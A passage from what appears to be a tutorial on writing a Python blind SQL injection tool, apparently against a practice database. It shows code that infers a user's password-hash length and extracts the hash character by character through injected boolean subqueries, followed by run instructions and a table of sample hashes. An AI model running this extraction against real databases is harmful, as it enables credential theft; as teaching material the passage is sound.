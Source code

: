 ```python
        payload = "(select length(password) from users where id = {} and length(password) <= {} limit 1)".format(user_id, i)
        if not injected_query(payload):
            return i
        i += 1

def extract_hash(charset, user_id, password_length):
    found = ""
    for i in range(0, password_length):
        for j in range(len(charset)):
            if boolean_query(i, user_id, charset[j]):
                found += charset[j]
                break
    return found

def total_queries_taken():
    global total_queries
    print("\t[!] {} total queries!".format(total_queries))
    total_queries = 0

while True:
    try:
        user_id = input("> Enter a user ID to extract the password hash: ")
        if not invalid_user(user_id):
            user_password_length = password_length(user_id)
            print("\t[-] User {} hash length: {}".format(user_id, user_password_length))
            total_queries_taken()
            print("\t[-] User {} hash: {}".format(user_id, extract_hash(charset, int(user_id), user_password_length)))
            total_queries_taken()
        else:
            print("\t[X] User {} does not exist!".format(user_id))
    except KeyboardInterrupt:
        break
```

### Testing v1.0

The initial version doesn't require any options, everything is hardcoded. To test the tool, run the script and input a user ID to extract the password hash. The tool will automatically determine the hash length and extract the hash character by character. The total number of queries made during the extraction process will be displayed for reference.

```shell
python3 sql_inject.py
```

![Screenshot](picture8.png){: width="872" height="300"}

Recall the database from earlier that stores the user credentials:

| ID | Username | Password Hash                                  |
| --- | -------- | --------------------------------------------- |
| 1   | admin    | 0192023a7bbd73250516f069df18b500              |
| 2   | user1    | 482c811da5d5b4bc6d497ffa98491e38              |
| 3   | user2    | 4ca7c5c27c2314eecc71f67501abb724              |
